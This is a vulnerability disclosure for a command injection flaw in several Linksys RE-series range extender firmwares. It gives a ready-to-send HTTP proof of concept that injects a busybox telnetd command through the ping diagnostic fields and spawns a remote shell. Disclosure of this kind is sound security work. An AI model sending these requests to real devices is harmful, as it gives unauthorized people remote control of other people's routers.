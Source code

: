 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `systemCommand` function, `ping_times、ping_size、command` is directly passed by the attacker, so we can control the `pwd` to attack the OS.

As you can see here, the input has not been checked. And then, use the global variable `system_cmd` to store input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

Eventually, in `pingstart` function, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

Vulnerability trigger steps:

* set `ping_times、ping_size、command`='`busybox telnetd -l /bin/sh -p 3333`', in (`systemCommand`)
* Trigger the vulnerability, in (`pingstart`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

set `ping_times、ping_size、command`='`busybox telnetd -l /bin/sh -p 3333`', in (`systemCommand`)

```http
POST /goform/systemCommand HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.2.2/admin/diagnostics.shtml
Cookie: session_id=muRqCmMtUWy68VpCyID6eXcJTzNnqcxd
Upgrade-Insecure-Requests: 1
Content-Length: 88

pingTestIP=&ping_size=32&ping_times=5&command='`busybox telnetd -l /bin/sh -p 3333`'
```

Trigger the vulnerability, in (`pingstart`)

```http
POST /goform/pingstart HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 0
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/admin/startping.shtml
Cookie: session_id=muRqCmMtUWy68VpCyID6eXcJTzNnqcxd
```



## Result

Get a shell!

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

